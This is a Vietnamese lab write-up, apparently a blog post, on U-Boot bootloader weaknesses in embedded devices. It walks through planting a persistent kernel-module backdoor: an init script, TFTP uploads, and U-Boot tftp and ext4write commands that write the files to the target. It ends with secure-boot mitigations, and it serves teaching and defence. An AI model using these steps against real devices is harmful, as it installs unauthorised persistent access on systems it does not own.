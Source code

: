```yaml
---
title: Bootloader Security - Các lỗ hổng bảo mật và kỹ thuật tấn công
author: kiennql
date: 2025-06-19 14:14:00 +0700
categories: [bootloader-labs]
tags: [bootloader, security, u-boot, embedded security, penetration testing, backdoor, tftp, kernel module, kernel, secure boot]
math: true
mermaid: true
render_with_liquid: false
---
```


## 1. Mục lục
- [1. Mục lục](#1-mục-lục)
- [2. Các lỗ hổng bootloader phổ biến](#2-các-lỗ-hổng-bootloader-phổ-biến)
- [3. Case Study - Penetration Test](#3-case-study---penetration-test)
  - [3.1. Mục tiêu](#31-mục-tiêu)
  - [3.2. Môi trường lab](#32-môi-trường-lab)
- [4. Triển khai Bootloader Attack](#4-triển-khai-bootloader-attack)
  - [4.1. Chuẩn bị payload](#41-chuẩn-bị-payload)
  - [4.2. Upload lên TFTP server](#42-upload-lên-tftp-server)
  - [4.3. Khai thác bootloader](#43-khai-thác-bootloader)
  - [4.4. Kết quả](#44-kết-quả)
- [5. Giải pháp khắc phục](#5-giải-pháp-khắc-phục)
  - [5.1. Secure Boot Technologies](#51-secure-boot-technologies)
  - [5.2. Best Practices](#52-best-practices)

Bài viết này phân tích các lỗ hổng bảo mật trong bootloader của thiết bị nhúng và trình bày một case study về cách khai thác để cài đặt backdoor.

## 2. Các lỗ hổng bootloader phổ biến

| Lỗ hổng | Mô tả | Khai thác |
|---------|-------|-----------|
| **Console port access** | Console port kết nối qua endpoint web công khai | Truy cập bootloader trực tiếp |
| **Thiếu authentication** | Không có xác thực trong bootloader | Thay đổi cấu hình, tải mã độc |
| **Unsigned code execution** | Cho phép thực thi code không ký | Chèn và thực thi backdoor |
| **Firmware update không an toàn** | Cơ chế cập nhật firmware yếu | Cập nhật firmware chứa malware |
| **Pre-secure boot access** | Truy cập trước khi secure boot | Cài đặt malware trước bảo vệ |

## 3. Case Study - Penetration Test

### 3.1. Mục tiêu

Trong quá trình pentest, phát hiện endpoint `http://vexpress.arm:8000` kết nối tới console của thiết bị nhúng.

**Target:** Cài đặt backdoor để có shell access và liệt kê processes.

### 3.2. Môi trường lab

```mermaid
graph LR
    A[Attacker] --> B[TFTP Server<br/>192.39.37.4]
    A --> C[Target Device<br/>vexpress.arm:8000]
    B --> C
```

## 4. Triển khai Bootloader Attack

### 4.1. Chuẩn bị payload

Tạo kernel module backdoor và init script:

```bash:S60kernel
#!/bin/sh
case "$1" in
    start)
        insmod /var/processenum.ko &
        [ $? = 0 ] && echo "OK" || echo "FAIL"
        ;;
    stop)
        rmmod processenum &
        [ $? = 0 ] && echo "OK" || echo "FAIL"
        ;;
    restart|reload)
        "$0" stop; "$0" start
        ;;
    *)
        echo "Usage: $0 {start|stop|restart}"
        exit 1
esac
exit $?
```

Files cần thiết:
```bash
root@kai:~/Desktop/backdoor-files# ls
S60kernel  processenum.ko
```

### 4.2. Upload lên TFTP server

```bash
tftp tftp.server
tftp> put S60kernel
Sent 392 bytes in 0.0 seconds
tftp> put processenum.ko  
Sent 124012 bytes in 0.0 seconds
```

### 4.3. Khai thác bootloader

Truy cập console qua web endpoint và thực hiện:

**Bước 1:** Cấu hình network
```bash
=> dhcp
=> setenv serverip 192.39.37.4
```

**Bước 2:** Download files vào memory
```bash
=> tftp 0x63000000 processenum.ko
Bytes transferred = 123320 (1e1b8 hex)

=> tftp 0x65000000 S60kernel  
Bytes transferred = 370 (172 hex)
```

**Bước 3:** Ghi vào filesystem
```bash
=> ext4write mmc 0:1 0x63000000 /var/processenum.ko 01e1b8
123320 bytes written in 421 ms

=> ext4write mmc 0:1 0x65000000 /etc/init.d/S60kernel 0x172
370 bytes written in 375 ms

=> reset
```

### 4.4. Kết quả

Device reboot và backdoor tự động chạy với **PID 903**.

![Attack Result](/assets/img/post/bootloader-security/Untitled.webp)
_Backdoor đã được cài đặt thành công_

## 5. Giải pháp khắc phục

### 5.1. Secure Boot Technologies

| Solution | Mô tả |
|----------|-------|
| **ARM Trusted Firmware** | Quản lý boot process an toàn |
| **U-Boot Secure Boot** | Xác thực digital signature |
| **OP-TEE** | Trusted Execution Environment |
| **Tianocore EDK II** | UEFI secure boot cho ARM |

### 5.2. Best Practices

1. **Disable Console Access** trong production
2. **Implement Code Signing** - chỉ chạy signed code
3. **Secure Firmware Update** với encryption/authentication
4. **Boot Chain Verification** từ hardware root of trust
5. **Access Control** cho bootloader commands

**Lưu ý:** Triển khai secure boot từ giai đoạn thiết kế để đảm bảo hiệu quả tối đa.
